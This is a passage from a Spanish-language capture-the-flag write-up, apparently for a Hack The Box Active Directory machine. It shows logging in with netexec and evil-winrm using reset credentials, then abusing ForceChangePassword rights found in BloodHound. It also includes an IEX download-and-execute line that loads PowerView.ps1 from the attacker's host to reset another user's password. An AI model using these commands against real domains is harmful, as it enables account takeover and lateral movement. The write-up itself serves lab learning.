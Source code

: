 Verificaremos que se han modificado las credenciales de usuario (michael@administrator) a través de **netexec**. Comprobamos que se ha realizado el cambio y además nos aparece como **pwn3d**, lo cual indica que podemos conectarnos remotamente al DC.

Accederemos a través del WinRM con el nuevo usuario obtenido.

```bash
netexec winrm 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'

evil-winrm -i 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'
```

<figure><img src="../../.gitbook/assets/2526_vmware_ivONU17Bqc.png" alt=""><figcaption></figcaption></figure>

### Abusing ForceChangePassword privileges

Volviendo a revisar el BloodHound en busca de realizar un **lateral movement** o elevar nuestros privilegios, comprobamos que el usuario que disponemos actualmente (michael@administrator.htb) tiene privilegios de **ForceChangePassword** sobre el usuario (benjamin@administrator.htb).&#x20;

Con lo cual, podemos también cambiarle la contraseña al usuario objetivo.

<figure><img src="../../.gitbook/assets/2525_vmware_ClC7rhkEBy.png" alt=""><figcaption></figcaption></figure>

Realizaremos el mismo proceso desde la terminal que tenemos iniciada sesión la cuenta de (michael@administrator.htb).

Importaremos en memoria el módulo de _PowerView.ps1_ y procederemos a realizar el cambio de la contraseña del usuario objetivo.

{% code overflow="wrap" %}
```powershell
python3 -m http.server 80

IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword
```
{% endcode %}
